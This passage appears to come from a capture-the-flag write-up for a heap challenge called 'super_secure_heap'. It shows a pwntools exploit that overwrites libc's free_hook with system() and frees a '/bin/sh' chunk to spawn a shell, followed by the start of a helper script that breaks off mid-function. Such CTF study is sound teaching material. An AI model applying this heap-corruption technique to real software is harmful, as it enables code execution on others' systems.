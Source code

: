 ```python 
# get shell
add(1, 0x70) # k1
add(1, 0x70) # k2 == free_hook
set_key(2, 0x60, p64(libc.sym.system))
set_key(0, 0x60, b'/bin/sh\0')
free(1, 0)
```

![image](https://github.com/gookoosss/CTF/assets/128712571/9046ddb5-443d-419e-a7a7-10dc3924e7fe)


## script

**by wan:**

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./super_secure_heap_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.31.so")

context.binary = exe
p = process([exe.path])

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

gdb.attach(p, gdbscript = '''
b*add+116
b*delete+73
b*show+94
b*set+298
b*set+382
b*menu+272
c
''')

input()

def add(option, size ):
        sla(b">", str(option).encode())
        sla(b">", str(1).encode())
        sla(b":", str(size).encode())
def free(option,idx ):
        sla(b">", str(option).encode())
        sla(b">", str(2).encode())
        sla(b":", str(idx).encode())
def set(option,idx,key,size, payload):
        sla(b">", str(option).encode())
        sla(b">", str(3).encode())
        sla(b":", str(idx).encode())
        sla(b":", str(key).encode())
        sla(b":", str(size).encode())
        sla(b":", payload)
def set_key(idx, size, payload):
        sla(b">", str(1).encode())
        sla(b">", str(3).encode())
        sla(b":", str(idx).encode())
```